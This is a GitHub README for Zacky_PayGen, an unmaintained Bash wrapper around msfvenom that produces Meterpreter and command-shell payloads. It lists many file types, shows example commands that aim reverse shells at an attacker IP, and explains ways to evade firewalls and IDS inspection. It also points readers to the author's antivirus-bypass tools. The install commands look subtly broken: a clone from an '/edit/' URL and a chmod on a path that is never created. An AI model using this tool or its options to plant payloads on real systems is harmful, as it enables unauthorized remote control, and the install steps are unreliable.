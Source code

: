 ###NOT MANTAINED

# Zacky_PayGen
A simple and usage payload generator tool for educational purpose.


A **quick** way to generate various "basic" Meterpreter payloads via `msfvenom` (part of the Metasploit framework).

<p align="center">
  <img src="https://img.fruugo.com/product/3/64/175799643_max.jpg" alt="Zacky_logo"/>
</p>


- - -


## About

MSFvenom Payload Creator to generate multiple types of payload.

**Fully automating**
The rest is to make the user's life as **easy as possible** 
**Note** 
If you want to bypass Antivirus see for more of my tools :)

- - -


## Install

+ Designed for **Kali Linux v2.x/Rolling** & **Metasploit v4.11+**.

```
$ sudo git clone https://github.com/Gesus-del/Zacky_PayGen/edit/Zacky_PayGen
$ chmod +x /usr/local/bin/Zacky_PayGen
```
### Kali-Linux

```
$ sudo bash Zacky_PayGen.sh                  
 [*] MSFvenom Payload Creator (Zacky_PayGen v0.1)

 [i] Missing TYPE or BATCH/LOOP mode

 Zacky_PayGen.sh <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
   Example: Zacky_PayGen.sh windows 192.168.1.10        # Windows & manual IP.
            Zacky_PayGen.sh elf bind eth0 4444          # Linux, eth0's IP & manual port.
            Zacky_PayGen.sh stageless cmd py https      # Python, stageless command prompt.
            Zacky_PayGen.sh verbose loop eth1           # A payload for every type, using eth1's IP.
            Zacky_PayGen.sh msf batch wan               # All possible Meterpreter payloads, using WAN IP.
            Zacky_PayGen.sh help verbose                # Help screen, with even more information.

 <TYPE>:
   + APK
   + ASP
   + ASPX
   + Bash [.sh]
   + Java [.jsp]
   + Linux [.elf]
   + OSX [.macho]
   + Perl [.pl]
   + PHP
   + Powershell [.ps1]
   + Python [.py]
   + Tomcat [.war]
   + Windows [.exe // .exe-service // .dll]

 Rather than putting <DOMAIN/IP>, you can do a interface and Zacky_PayGen will detect that IP address.
 Missing <DOMAIN/IP> will default to the IP menu.

 Missing <PORT> will default to 443.

 <CMD> is a standard/native command prompt/terminal to interactive with.
 <MSF> is a custom cross platform shell, gaining the full power of Metasploit.
 Missing <CMD/MSF> will default to <MSF> where possible.

 <BIND> opens a port on the target side, and the attacker connects to them. Commonly blocked with ingress firewalls rules on the target.
 <REVERSE> makes the target connect back to the attacker. The attacker needs an open port. Blocked with engress firewalls rules on the target.
 Missing <BIND/REVERSE> will default to <REVERSE>.

 <STAGED> splits the payload into parts, making it smaller but dependent on Metasploit.
 <STAGELESS> is the complete standalone payload. More 'stable' than <STAGED>.
 Missing <STAGED/STAGELESS> will default to <STAGED> where possible.

 <TCP> is the standard method to connecting back. This is the most compatible with TYPES as its RAW. Can be easily detected on IDSs.
 <HTTP> makes the communication appear to be HTTP traffic (unencrypted). Helpful for packet inspection, which limit port access on protocol - e.g. TCP 80.
 <HTTPS> makes the communication appear to be (encrypted) HTTP traffic using as SSL. Helpful for packet inspection, which limit port access on protocol - e.g. TCP 443.
 <FIND_PORT> will attempt every port on the target machine, to find a way out. Useful with stick ingress/engress firewall rules. Will switch to 'allports' based on <TYPE>.
 Missing <TCP/HTTP/HTTPS/FIND_PORT> will default to <TCP>.

 <BATCH> will generate as many combinations as possible: <TYPE>, <CMD + MSF>, <BIND + REVERSE>, <STAGED + STAGELESS> & <TCP + HTTP + HTTPS + FIND_PORT> 
 <LOOP> will just create one of each <TYPE>.

 <VERBOSE> will display more information.
$
```
